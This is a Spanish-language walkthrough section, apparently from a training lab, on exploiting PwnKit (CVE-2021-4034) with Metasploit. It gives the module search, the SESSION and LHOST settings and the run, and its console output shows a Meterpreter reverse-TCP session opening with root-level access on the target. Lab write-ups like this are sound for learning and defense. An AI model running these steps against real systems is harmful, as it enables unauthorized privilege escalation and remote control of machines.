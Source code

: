 | **Pwnkit: Local Privilege Escalation** |
|:-----------:|
| *Es una vulnerabilidad de corrupción de memoria descubierta en el comando pkexec (instalado en todas las distribuciones principales de Linux), denominado PwnKit y asignado CVE-2021–4034. La vulnerabilidad se remonta a la distribución original de 2009. La vulnerabilidad recibió una puntuación CVSS de 7,8 ("alta gravedad"), lo que refleja factores graves involucrados en un posible exploit: los usuarios sin privilegios pueden obtener privilegios completos de root, independientemente de la arquitectura de la máquina subyacente o si el demonio polkit se está ejecutando o no.* |

<br>

Waos, es una grave vulnerabilidad que al parecer, afecto a todas las distribuciones de Linux. 

Vamos a usar este Exploit desde **Metasploit**.

* Busca el Exploit para **pkexec**:

```bash
msf6 post(multi/recon/local_exploit_suggester) > search pkexec
.
Matching Modules
================
.
   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/pkexec                           2011-04-01       great      Yes    Linux PolicyKit Race Condition Privilege Escalation
   1  exploit/linux/local/ptrace_traceme_pkexec_helper     2019-07-04       excellent  Yes    Linux Polkit pkexec helper PTRACE_TRACEME local root exploit
   2  exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec  2022-01-25       excellent  Yes    Local Privilege Escalation in polkits pkexec
.
.
Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
```

* Vamos a usar el módulo número 2:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
```

* Configura el módulo:
```bash
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Ejecuta el módulo:
```bash
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.cvudzkgjr
[+] The target is vulnerable.
[*] Writing '/tmp/.pvykywrb/sobfjbndr/sobfjbndr.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.pvykywrb
[*] Sending stage (3045348 bytes) to 10.10.10.56
[+] Deleted /tmp/.pvykywrb/sobfjbndr/sobfjbndr.so
[+] Deleted /tmp/.pvykywrb/.akzoonlzih
[+] Deleted /tmp/.pvykywrb
[*] Meterpreter session 2 opened (Tu_IP:4444 -> 10.10.10.56:55948) at 2024-05-01 02:46:00 -0600
.
meterpreter > sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
```